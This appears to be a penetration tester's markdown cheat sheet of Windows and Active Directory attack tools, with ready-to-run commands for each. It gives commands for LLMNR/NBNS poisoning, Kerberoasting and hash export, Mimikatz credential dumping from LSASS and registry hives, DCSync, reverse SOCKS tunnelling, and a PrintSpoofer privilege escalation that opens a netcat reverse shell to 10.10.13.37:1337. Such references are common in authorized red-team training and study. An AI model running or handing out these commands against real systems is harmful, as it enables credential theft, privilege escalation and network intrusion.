 # tools

Inveigh.ps1
https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1
Similar to Responder, for powershell
PS C:\> Import-Module .\Inveigh.ps1
PS C:\> (Get-Command Invoke-Inveigh).Parameters
PS C:\> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y


PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
Replacements for various Windows net*
PS C:\> import-module .\PowerView.ps1
PS C:\> Get-DomainPolicy
PS C:\> Get-DomainUser * -spn | select samaccountname  #to extract TGS tickets
PS C:\> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\all_tickets.csv -NoTypeInformation  #export to csv


nc.exe
https://github.com/int0x33/nc.exe/
netcat Win binary, for port listening and reverse shell 



printspoofer
To escalate with SeImpersonatePrivilege & SeAssignPrimaryTokenPrivilege
PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"


Rubeus
https://github.com/GhostPack/Rubeus
Kerberoasting from windows machine
PS C:\> .\Rubeus.exe kerberoast /stats  #to gather some stats
PS C:\> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap  #/nowrap to copy hash easily
PS C:\> .\Rubeus.exe kerberoast /user:"username" /nowrap  #to test spesific user
PS C:\> .\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap  #RC4 encryption when requesting a new service ticket


SharpHound.exe
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
To gather AD data for Bloodhound


Snaffler.exe
https://github.com/SnaffCon/Snaffler
Credential Enumeration
PS C:\> .\Snaffler.exe  -d <DomainName> -s -v data
  

Chisel
https://github.com/jpillora/chisel
Pre-compiled Chisel for port-forwarding, both linux and windows
sudo ./chisel server --reverse -v -p 1234 --socks5
./chisel.exe client -v <YourIP>:1234 R:socks
  

Lazagne
https://github.com/AlessandroZ/LaZagne
checks for passwords in common locations

  
Linpeas / Winpeas
Checks for possible priv esc for linux and windows
  
  
Mimikatz
https://github.com/ParrotSec/mimikatz
  
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

#use lsass.DMP and put results to lsass.txt
#lsass.DMP can be acquired with right click lsass.exe and create dump method from task manager in details
mimikatz # sekurlsa::minidump lsass.DMP
mimikatz # log lsass.txt
mimikatz # sekurlsa::logonPasswords

#for dcsync abuse
mimikatz # lsadump::dcsync
mimikatz # lsadump::dcsync /user:<UserName>  #for spesific user only 


reg save HKLM\SAM sam.h  #to Dump SAM
reg save HKLM\SYSTEM sys.h  #to Dump SYSTEM
reg save HKLM\SECURITY sec.h  #to Dump SECURITY
mimikatz # lsadump::sam sys.h sam.h sec.h  #get hashes from these files with mimikatz

  
  
  
  
  
  
  
  
  










